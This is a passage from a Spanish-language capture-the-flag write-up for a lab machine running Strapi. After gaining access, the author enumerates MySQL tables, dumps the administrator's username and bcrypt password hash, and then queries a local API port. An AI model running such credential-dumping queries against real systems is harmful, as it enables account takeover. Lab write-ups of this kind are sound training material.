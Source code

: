 ```
+------------------------------+
| core_store                   |
| reviews                      |
| strapi_administrator         |
| upload_file                  |
| upload_file_morph            |
| users-permissions_permission |
| users-permissions_role       |
| users-permissions_user       |
+------------------------------+
8 rows in set (0.00 sec)
```
**Describir tabla**
```
mysql> describe strapi_administrator
    -> ;
+--------------------+--------------+------+-----+---------+----------------+
| Field              | Type         | Null | Key | Default | Extra          |
+--------------------+--------------+------+-----+---------+----------------+
| id                 | int(11)      | NO   | PRI | NULL    | auto_increment |
| username           | varchar(255) | NO   | MUL | NULL    |                |
| email              | varchar(255) | NO   |     | NULL    |                |
| password           | varchar(255) | NO   |     | NULL    |                |
| resetPasswordToken | varchar(255) | YES  |     | NULL    |                |
| blocked            | tinyint(1)   | YES  |     | NULL    |                |
+--------------------+--------------+------+-----+---------+----------------+
6 rows in set (0.00 sec)
```
**Sacar datos**
```
mysql> select username, password from strapi_administrator;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2a$10$TPkuGtxhj8D3bmLsy.LQ7.RkLRjErh89O/MS1H6pbtX3zM6z8BIsq |
+----------+--------------------------------------------------------------+
1 row in set (0.00 sec)
```


>[Note]
>Aquí intento crackear la contraseña pero la escalada va por otro caminso

Viendo el otro puerto vemos que tenemos la página de antes:
```shell
trapi@horizontall:~/myapi/config$ curl 127.0.0.1:1337
<!doctype html>

<html>
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <title>Welcome to your API</title>
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style>
    </style>
  </head>
  <body lang="en">
    <section>
      <div class="wrapper">
        <h1>Welcome.</h1>
      </div>
    </section>
  </body>
</html>
```